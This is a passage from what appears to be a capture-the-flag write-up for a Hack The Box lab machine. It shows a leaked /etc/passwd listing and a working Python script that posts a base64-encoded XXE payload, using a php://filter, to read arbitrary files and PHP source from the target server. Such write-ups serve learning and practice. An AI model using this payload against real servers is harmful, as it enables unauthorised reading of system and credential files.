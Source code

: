 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Encoding everything manually was a little painful, so I created a small script to read a file from the server and print it's content. I used PHP filters to get the file content as base64 and to be able to extract the content of PHP files without executing them.


```python
#!/bin/env python
import sys
import base64
import requests
import re

file = sys.argv[1]

# <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://{file}"> ]>
xml = f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={file}"> ]>
<bugreport>
<title>BEGIN&xxe;END</title>
<cwe>bbb</cwe>
<cvss>1</cvss>
<reward>10000</reward>
</bugreport>"""


encoded = base64.b64encode(xml.encode("utf-8"))

data = {"data":encoded}
response = requests.post('http://target.htb/tracker_diRbPr00f314.php', data=data).text

matches = re.search("BEGIN(.*)END", response, re.DOTALL|re.MULTILINE)
if None == matches:
    print('File not found')
    sys.exit()

decoded = base64.b64decode(matches[1])
print(decoded.decode('utf-8'))
```

